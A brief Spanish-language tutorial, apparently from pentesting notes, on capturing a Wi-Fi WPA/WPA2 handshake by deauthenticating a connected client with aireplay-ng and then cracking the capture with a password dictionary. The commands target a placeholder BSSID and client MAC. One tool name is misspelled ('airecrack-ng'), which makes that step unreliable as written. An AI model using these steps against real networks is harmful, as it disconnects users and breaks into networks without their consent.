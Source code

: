 # Capturar Handshake / fuerza bruta con diccionario

Un **Handshake** es el proceso de autenticación en redes Wi-Fi WPA/WPA2, donde un cliente y un punto de acceso verifican que ambos tienen la clave correcta sin enviarla directamente.

Solo podemos capturar el archivo del handshake cuando un cliente se conecta a la red, o a la red objetivo. Pero lo que vamos a hacer es desconectar a un cliente de la red objetivo.&#x20;

Así obtendremos el archivo del handshake porque se autentica de nuevo en la red objetivo.

## Pasos de ataque

#### Capturar paquete

```bash
airodump-ng --channel 6 --bssid <BSSID> -w handshake wlan0
```

#### Enviar paquetes de desautenticacion

```bash
aireplay-ng --deauth 10 -a <BSSID> -c <MAC del Cliente> wlan0mon
```

La opción `--deauth` enviará un paquete de desautenticación al cliente.

#### **Descifrar la clave**

```
airecrack-ng handshake-01.cap -w '/Diccionario'
```

